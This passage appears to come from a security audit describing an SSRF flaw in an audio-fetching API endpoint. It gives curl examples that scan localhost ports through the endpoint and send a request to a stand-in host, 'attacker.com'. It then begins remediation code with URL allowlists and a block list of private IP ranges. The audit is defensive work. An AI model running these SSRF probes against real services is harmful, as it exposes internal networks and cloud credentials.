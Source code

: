 **Scenario 2: Port Scanning**
```bash
# Scan internal services
for port in {1..1000}; do
  curl -X POST "/api/suno/add-vocals" \
    -d "{\"audioUrl\":\"http://localhost:$port/\"}" &
done

# Response times reveal open ports
```

**Scenario 3: Webhook Abuse**
```bash
# Trigger callbacks to attacker-controlled server
curl -X POST "/api/suno/add-vocals" \
  -d '{
    "audioUrl": "https://attacker.com/track.mp3?callback=steal-data"
  }'

# Suno API fetches URL, attacker logs request with IP/User-Agent
```

#### Impact
- **Data Exposure:** Access to internal metadata (AWS credentials)
- **Network Mapping:** Attacker learns internal network topology
- **Compliance:** SSRF is critical for OWASP Top 10
- **Chained Attacks:** SSRF can enable RCE in extreme cases

#### Remediation

**Implement URL Validation**
```typescript
// src/lib/urlValidation.ts
import { URL } from 'url';

const ALLOWED_PROTOCOLS = ['https:'];
const ALLOWED_DOMAINS = [
  'cdn.sunoapi.com',
  'storage.googleapis.com',
  's3.amazonaws.com',
  // Add other legitimate audio CDNs
];

const BLOCKED_IPS = [
  '0.0.0.0/8',
  '10.0.0.0/8',
  '127.0.0.0/8',
  '169.254.0.0/16', // AWS metadata
  '172.16.0.0/12',
  '192.168.0.0/16',
  '224.0.0.0/4', // Multicast
  '240.0.0.0/4', // Reserved
];

export function isValidAudioURL(urlString: string): boolean {
  try {
    const url = new URL(urlString);

    // Check protocol
    if (!ALLOWED_PROTOCOLS.includes(url.protocol)) {
      console.warn('Invalid protocol:', url.protocol);
      return false;
    }

    // Check domain whitelist
    const isAllowedDomain = ALLOWED_DOMAINS.some(domain =>
```